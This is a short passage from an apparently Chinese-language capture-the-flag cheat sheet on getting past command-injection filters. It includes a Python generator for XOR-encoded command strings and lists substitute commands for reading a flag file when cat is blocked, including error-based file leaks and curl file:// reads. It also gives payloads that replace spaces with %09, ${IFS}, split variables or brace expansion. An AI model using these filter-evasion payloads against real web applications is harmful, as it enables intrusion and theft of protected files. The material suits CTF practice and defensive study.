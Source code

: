 ```python
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)


while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    print(param)

```



+ 过滤命令执行(如cat tac)
more:一页一页的显示档案内容

less:与 more 类似

head:查看头几行

tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示

tail:查看尾几行

nl：显示的时候，顺便输出行号

od:以二进制的方式读取档案内容

vi:一种编辑器，这个也可以查看

vim:一种编辑器，这个也可以查看

sort:可以查看

uniq:可以查看

file -f:报错出具体内容

sh /flag 2>%261 //报错出文件内容

curl file:///root/f/flag

strings flag

uniq -c flag

bash -v flag

rev flag



+ 过滤空格
%09（url传递）(cat%09flag.php)

`cat${IFS}flag`

`a=fl;b=ag;cat$IFS$a$b`

{cat,flag}


# 无回显情况处理
